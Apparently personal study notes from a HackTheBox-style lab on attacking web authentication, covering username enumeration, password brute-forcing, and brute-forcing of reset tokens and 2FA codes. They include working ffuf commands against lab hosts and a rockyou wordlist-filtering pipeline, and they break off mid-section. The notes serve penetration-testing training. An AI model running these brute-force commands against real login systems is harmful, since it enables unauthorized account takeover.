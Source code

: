 ![[Pasted image 20240611220719.png]]

### Common Authentication Methods

- Knowledge-based authentication
- Ownership-based authentication
- Inherence-based authentication


| Knowledge                   | Ownership         | Inherence         |
| --------------------------- | ----------------- | ----------------- |
| Password                    | ID card           | Fingerprint       |
| PIN                         | Security Token    | Facial Pattern    |
| Answer to Security Question | Authenticator App | Voice Recognition |

# Bruteforce Attacks

## Enumerating Users

- responds differently to registered/valid and invalid inputs for authentication endpoints

![[Pasted image 20240611221602.png]]

![[Pasted image 20240611221611.png]]


- Enumerate usernames using ffuf

```shell
ffuf -w /opt/useful/SecLists/Usernames/xato-net-10-million-usernames.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown username"
```


### User Enumeration via Side-Channel Attacks

- the response timing, i.e., the time it takes for the web application's response to reach us
	- eg, if it checks for the userdb only for valid db rhen response time varies

### Brute-Forcing Passwords

- after finding username fuzz the password with the valid username
- filter the wordlist with password policies

```shell
grep '[[:upper:]]' /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt

```


```shell
ffuf -w ./custom_wordlist.txt -u http://94.237.49.178:49729/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"
```



### Brute-Forcing Password Reset Tokens


![[Pasted image 20240611233705.png]]


-  need to create an account on the target web application, request a password reset token, and then analyze it.


**Example:**

```
Hello,

We have received a request to reset the password associated with your account. To proceed with resetting your password, please follow the instructions below:

1. Click on the following link to reset your password: Click

2. If the above link doesn't work, copy and paste the following URL into your web browser: http://weak_reset.htb/reset_password.php?token=7351

Please note that this link will expire in 24 hours, so please complete the password reset process as soon as possible. If you did not request a password reset, please disregard this e-mail.

Thank you.
```



- here a get request with parameter as toke is got so we can fuzz the token by generation numbers
- generate tokens


```shell
seq -w 0 9999 > tokens.txt
```




## Brute-Forcing 2FA Codes


![[Pasted image 20240612002024.png]]

![[Pasted image 20240612002032.png]]


```shell
pradyun2005@htb[/htb]$ seq -w 0 9999 > tokens.txt
```


```shell
pradyun2005@htb[/htb]$ ffuf -w ./tokens.txt -u http://bf_2fa.htb/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=fpfcm5b8dh1ibfa7idg0he7l93" -d "otp=FUZZ" -fr "Invalid 2FA Code"
```

- after successfull auth every hit will be successfull



## Authentication Bypass via Direct Access


#### Direct Access

- we know that after successful auth , redirect to 
